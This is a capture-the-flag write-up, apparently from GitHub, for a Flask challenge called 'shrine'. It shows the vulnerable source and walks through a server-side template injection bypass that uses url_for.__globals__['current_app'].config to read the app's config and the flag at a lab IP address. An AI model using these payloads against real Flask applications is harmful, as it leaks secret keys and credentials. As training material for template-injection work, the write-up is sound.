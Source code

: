# shrine

![Screenshot from 2021-07-26 17-55-40](https://user-images.githubusercontent.com/87865134/126978185-a7784b59-3697-4004-9220-792073ed9cae.png)

### - Source Code Disclosure
```python
import flask import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 


if __name__ == '__main__': app.run(debug=True) 
```
### - Hint:
  - Flag in app.config

### - Source code review:
  - has route ***/shrine/*** use `render_template` to render data  

![Screenshot from 2021-07-26 18-03-28](https://user-images.githubusercontent.com/87865134/126978929-e07e7024-1da7-4ed8-85d5-23dbcca1d6b0.png)
  
  - can't use function in route ***/shrine/*** because `s = s.replace('(', '').replace(')', '')`
  - can't use built-in object `config`, `self` because it is in the `blacklist = ['config', 'self'] `
  - can use built-in function  `url_for()` and `get_flashed_messages()`
  
### - Exploit:
  - use `url_for.__globals__` to get the dictionary that holds the function’s global variables
  ```python
  http://111.200.241.244:62937/shrine/{{url_for.__globals__}}
  ```
 
 ![Screenshot from 2021-07-26 18-13-27](https://user-images.githubusercontent.com/87865134/126980102-12da23dc-724b-41ef-8212-dc8fc2391c5e.png)

  - `'current_app': <Flask 'app'>` is the current Flask to be used
  - Flag is in app.config -> retrieve `['current_app.config']` to get flag
  ```python
  http://111.200.241.244:62937/shrine/{{url_for.__globals__['current_app'].config}}
  ```
 
 ![Screenshot from 2021-07-26 18-17-24](https://user-images.githubusercontent.com/87865134/126980594-7924c08b-6c3a-4ddc-8097-d0aefc32b7f4.png)

### - Description
> **category**: Server-side Template Injection
 

